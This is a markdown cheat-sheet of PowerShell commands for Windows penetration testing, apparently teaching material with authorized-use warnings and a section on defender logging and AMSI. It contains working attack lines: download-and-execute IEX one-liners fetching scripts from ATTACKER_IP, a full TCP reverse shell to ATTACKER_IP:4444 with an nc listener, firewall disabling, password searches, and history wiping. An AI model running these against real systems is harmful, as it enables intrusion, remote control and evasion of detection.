

# PowerShell Commands for Penetration Testing

PowerShell is the default automation and administration shell on modern Windows, and because it is signed, trusted, and present everywhere it is also a first-class offensive tool. This note is a working cheat-sheet of the PowerShell (and a few CMD) commands used across a Windows engagement — from execution-policy bypass and host recon through credential discovery, tooling delivery, a reverse shell, and cleanup.

> [!WARNING]
> **Authorized use only**
> Run these commands **only on systems you are explicitly authorized to test**. Many are indistinguishable from real intrusion activity and will trigger EDR, logging, and incident response.

## Overview

The commands below map onto the normal flow of a Windows engagement: land a shell, relax execution policy for the session, enumerate the user and host, sweep the network, hunt files and credentials, pull tooling down, upgrade to an interactive reverse shell, and clean up. Because these are native, signed binaries, they double as [living-off-the-land](https://lolbas-project.github.io/) tradecraft — the same cmdlets an administrator uses. For the broader command surface see [Windows-Shell](Windows-Shell.md), [Network-Enumeration](Network-Enumeration.md), [WMIC-Commands](WMIC-Commands.md), and [Windows-Firewall-and-AV-Commands](Windows-Firewall-and-AV-Commands.md); for the language itself see PowerShell.



> [!NOTE]
> **Execution policy is not a security boundary**
> `ExecutionPolicy` only controls whether a script *file* runs; it never restricts commands typed or piped into the session. Microsoft documents it as a safety feature, not a security control — which is exactly why `-ExecutionPolicy Bypass` is so routine and why defenders should not rely on it.

## Launch & Execution-Policy Bypass

- PowerShell ExecutionPolicy Bypass *When Launching*

> [!TIP]
> **Recommended (clean & temporary)**
> Applies **only to this PowerShell session**, does **not** change system policy, and is the safest option for pentesting.

```powershell
powershell.exe -ExecutionPolicy Bypass
```

- Launch + Run a Script (One Shot)

```powershell
powershell.exe -ExecutionPolicy Bypass -File script.ps1
```

- Launch + Execute Inline Command

```powershell
powershell.exe -ExecutionPolicy Bypass -Command "Get-ExecutionPolicy"
```

- Hidden Window (Common in Payloads)

```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden
```

- No Profile + Bypass (Stealthier) — avoids loading user profiles, leaving fewer artifacts and a faster launch

```powershell
powershell.exe -NoProfile -ExecutionPolicy Bypass
```

- Full PT-Friendly Launch Template

```powershell
powershell.exe -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden
```

- From CMD.exe

```cmd
powershell -NoProfile -ExecutionPolicy Bypass
```

- Download & Execute (Bypass at Launch)

```powershell
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command `
"IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/script.ps1')"
```

- Confirm Policy Inside Session

```powershell
Get-ExecutionPolicy
```

> Expected output:

```text
Bypass
```

### When to Use Which

| Scenario          | Best Option                          |
| ----------------- | ------------------------------------ |
| Manual PT shell   | `-NoProfile -ExecutionPolicy Bypass` |
| Payload execution | `-WindowStyle Hidden`                |
| Script execution  | `-File script.ps1`                   |
| One-liner         | `-Command "..."`                     |

## Environment & Execution

- Check PowerShell Version

```powershell
$PSVersionTable
```

- Execution Policy (Read)

```powershell
Get-ExecutionPolicy -List
```

- Bypass (Current Session Only)

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
```

## User & System Recon

- Current User

```powershell
whoami
```

```powershell
whoami /groups
```

- Host Info

```powershell
hostname
```

```powershell
systeminfo
```

- OS & Architecture

```powershell
(Get-CimInstance Win32_OperatingSystem).Caption
$env:PROCESSOR_ARCHITECTURE
```

## Network Enumeration

- IP Configuration

```powershell
ipconfig /all
```

- Routes

```powershell
route print
```

- ARP Table

```powershell
arp -a
```

- Open Ports (Listening)

```powershell
netstat -ano
```

- Firewall Status

```powershell
Get-NetFirewallProfile
```

- Disable Firewall (If Allowed)

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

## Network Scanning (PowerShell Native)

- Test Port Connectivity

```powershell
Test-NetConnection 192.168.2.10 -Port 445
```

- Quick Port Scan

```powershell
1..1024 | % { Test-NetConnection 192.168.2.10 -Port $_ -InformationLevel Quiet }
```

## File System Enumeration

- List Files (Recursive)

```powershell
Get-ChildItem C:\ -Recurse -ErrorAction SilentlyContinue
```

- Find Sensitive Files

```powershell
Get-ChildItem C:\ -Recurse -Include *.config,*.xml,*.ini,*.txt -ErrorAction SilentlyContinue
```

- Search for Keywords

```powershell
Select-String -Path C:\Users\*\Documents\* -Pattern "password" -ErrorAction SilentlyContinue
```

## Credential & Privilege Checks

- Local Users

```powershell
Get-LocalUser
```

- Local Groups

```powershell
Get-LocalGroup
```

- Admin Group Members

```powershell
Get-LocalGroupMember Administrators
```

- Stored Credentials

```powershell
cmdkey /list
```

## File Download / Upload

- Download File (Common)

```powershell
Invoke-WebRequest http://192.168.1.7/tool.exe -OutFile tool.exe
```

- Short Alias

```powershell
iwr http://192.168.1.7/tool.exe -o tool.exe
```

- Download & Execute (Memory-Friendly)

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://192.168.1.7/script.ps1")
```

## Process & Service Enumeration

- Running Processes

```powershell
Get-Process
```

- Services

```powershell
Get-Service
```

- Services Running as SYSTEM

```powershell
Get-WmiObject Win32_Service | Where-Object {$_.StartName -eq "LocalSystem"}
```

## Scheduled Tasks (Privilege Escalation Recon)

```powershell
Get-ScheduledTask
```

```powershell
schtasks /query /fo LIST /v
```

## PowerShell Reverse Shell (Basic)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
$data = (New-Object Text.ASCIIEncoding).GetString($bytes,0,$i)
$sendback = (iex $data 2>&1 | Out-String )
$sendback2 = $sendback + "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
$stream.Write($sendbyte,0,$sendbyte.Length)
$stream.Flush()
}
```

- Listener:

```bash
nc -lvnp 4444
```

See Remote-Code-Execution-to-Reverse-shell for delivery techniques and upgrading a raw shell to a fully interactive one.

## Cleanup / OpSec

- Clear Run History

```powershell
Remove-Item (Get-PSReadlineOption).HistorySavePath
```

- Clear Temp

```powershell
Remove-Item $env:TEMP\* -Recurse -Force
```

## One-Liners You'll Actually Use

```powershell
whoami && ipconfig
```

```powershell
Get-NetIPAddress | ft
```

```powershell
Get-ChildItem Env:
```

## Security Considerations

> [!WARNING]
> **PowerShell is heavily instrumented**
> On PowerShell 5.1 and later, script content and cmdlet activity are logged even when a script is never written to disk. Assume every command above is visible to a defender and design engagement OpSec around that reality — do not treat `-WindowStyle Hidden` or an in-memory `IEX` download as "silent."

Detection and defensive touchpoints an operator and a blue-teamer should both know:

- **Script Block Logging** records deobfuscated script text to `Microsoft-Windows-PowerShell/Operational` as **Event ID 4104**; **Module Logging** produces **Event ID 4103**. The classic *Windows PowerShell* log records engine start/stop as **Event ID 400/600**.
- **AMSI (Antimalware Scan Interface)** hands PowerShell and script content to the registered AV/EDR for scanning *before execution*, catching many in-memory `IEX` payloads that never touch disk.
- **PowerShell Transcription** captures full input/output transcripts to a configured directory when enabled via Group Policy.
- **Constrained Language Mode** (often paired with WDAC/AppLocker) blocks the .NET and COM calls that reverse shells and offensive modules depend on.
- Firewall changes (`Set-NetFirewallProfile ... -Enabled False`) and credential access (`cmdkey /list`, LSASS-adjacent activity) are high-signal events that generate their own telemetry.

## Best Practices

- Prefer session-scoped bypass (`-Scope Process` / `-ExecutionPolicy Bypass` at launch) over changing machine policy, which is persistent and noisy.
- Use `-NoProfile` to avoid loading (and being altered by) user profile scripts and to reduce artifacts.
- Scope enumeration tightly and add `-ErrorAction SilentlyContinue` on recursive sweeps to avoid flooding output and slowing the host.
- Prefer built-in, signed cmdlets over dropping external binaries where possible — fewer disk artifacts and better blend-in.
- Record what you run and when; log-heavy PowerShell activity must be reconcilable during the engagement debrief.

## Troubleshooting

| Symptom | Likely cause & fix |
| --- | --- |
| Script blocked: "running scripts is disabled on this system" | Execution policy — relaunch with `-ExecutionPolicy Bypass` or `Set-ExecutionPolicy Bypass -Scope Process -Force`. |
| `IEX (...).DownloadString(...)` fails or is flagged | AMSI/EDR is scanning the payload, or the URL/attacker host is unreachable. Verify connectivity and consider a different delivery path. |
| "Access is denied" on `Get-LocalGroupMember` / firewall changes | Not in an elevated session — reopen PowerShell as Administrator (UAC). |
| Cmdlet not recognized (e.g. `Get-NetFirewallProfile`) | Older PowerShell/Windows or missing module — fall back to CMD equivalents (`netsh advfirewall`, `net`) in constrained shells. |
| `Invoke-WebRequest` hangs on older hosts | First-run IE engine dependency — add `-UseBasicParsing`. |

## References

- Microsoft Learn — about_Execution_Policies: https://learn.microsoft.com/powershell/module/microsoft.powershell.core/about/about_execution_policies
- Microsoft Learn — PowerShell logging (Script Block, Module, Transcription): https://learn.microsoft.com/powershell/scripting/windows-powershell/wmf/whats-new/script-logging
- Microsoft Learn — Antimalware Scan Interface (AMSI): https://learn.microsoft.com/windows/win32/amsi/antimalware-scan-interface-portal
- LOLBAS Project — living-off-the-land binaries: https://lolbas-project.github.io/

## Related
- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub and map of content
- PowerShell — language reference for these commands
- [Windows-Shell](Windows-Shell.md) — CMD vs PowerShell and how the shell works
- [Network-Enumeration](Network-Enumeration.md) — enumerating hosts, shares, and sessions
- [Windows-Firewall-and-AV-Commands](Windows-Firewall-and-AV-Commands.md) — firewall/AV from the command line
- Remote-Code-Execution-to-Reverse-shell — PowerShell one-liners for reverse shells
- Offensive-Active-Directory — PowerShell for AD enumeration and attacks
- Windows-Privilege-Escalation — PowerShell-driven local privilege escalation
